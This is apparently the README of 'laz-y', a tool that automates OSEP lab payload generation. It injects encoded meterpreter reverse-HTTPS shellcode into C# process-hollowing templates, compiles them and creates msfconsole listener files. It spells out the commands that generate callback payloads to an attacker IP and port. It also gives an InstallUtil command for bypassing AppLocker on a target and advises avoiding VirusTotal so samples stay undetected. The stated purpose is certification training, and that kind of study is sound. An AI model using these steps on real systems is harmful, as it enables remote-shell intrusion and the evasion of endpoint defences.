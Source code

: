 # laz-y
Automating payload generation for OSEP labs and exam. This tool generates x86 and x64 HTTPS staged meterpreter shellcodes, injects them in your CS templates, and generate C# binaries from Linux using mcs. It supports ROT encoding, and soon XOR encoding.

## But, why?
The VPN connection dropped during one of the OSEP challenge labs, and my local IP changed. I needed to recompile all the payloads and tools.. I did not, I wrote a script :) 

## How does it work?
This repo provides a process hollowing template as an example, the point of this tool is to use your own templates.  
When started, the python script will search for marks in all files you put in the "templates" folder and swap the marks for the MSF payload and decoding routines. It then exports the modified template files in the "output" folder, and run "mcs" C# compiler on all *.cs files.
You end up with :
* Your initial templates, untouched
* The templates with marks replaced with MSF payloads and decoding routines
* If the templates are .cs, the resulting C# binaries
* The according metasploit .rc files to start your listeners

## Installation
This script has only been tested on Kali. Execute the following commands on an updated Kali OS to set up the environment:
* `sudo apt update && sudo apt install mono-mcs -y`
* `git clone https://github.com/Nariod/laz-y.git`
* `cd laz-y`
* `pip3 install -r requirements.txt`

## Usage
* DO NOT UPLOAD ANYTHING TO VIRUSTOTAL, if you must use https://antiscan.me/
* Add your CS templates in the "templates" folder
* Add the mark `!!!_SHELLCODE_MARK!!!` in the templates, where you want the shellcode to be injected
* Add the mark `!!!DECODE_ROUTINE!!!` in the templates, where you want the decoding routine to be injected
* Run the script with `python3 laz-y.py -l CALLBACK_IP -p CALLBACK_PORT -e ENCODING_OPTION`
* Retrieve the metasploit ressource file (.rc) in the "output" folder
* Start your listener with `sudo msfconsole -q -r output/https.rc`
* Retrieve and use the final binaries located in the "output" folder

On target machine, the final binaries can be executed by:
* Directly executing the binaries, in the case Applocker is not enforced
* Using the InstallUtil lolbin by using `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Nariod\Desktop\MY_BINARY.exe` to circumvent Applocker

Generating binaries on Kali:

![Usage](/images/Usage.png)

Executing the binaries on Windows target, using the InstallUtil lolbin:

![Usage](/images/InstallUtil.png)

Enjoying some shell love:

![Usage](/images/GettingShells.png)

## Research and development
For research purposes, I dedicated [a repo](https://github.com/Nariod/Laz-y-templates) for C# templates compatible with lazy and more realist operations. 

## To do
- [x] Basic mark for shellcode swaping
- [x] Add ROT encoding support
- [x] Force arch when mcs compiles
- [x] Add msf resource files
- [ ] Add XOR support
- [X] Generate the msf resource files
- [x] Check user input for safety
- [x] InstallUtil lolbin support

## Credits
* Stackoverflow 
* https://www.abatchy.com/2017/05/rot-n-shellcode-encoder-linux-x86

Templates
* Process Hollowing : https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/Shellcode%20Process%20Hollowing/Program.cs

## Legal disclaimer
Usage of anything presented in this repo to attack targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.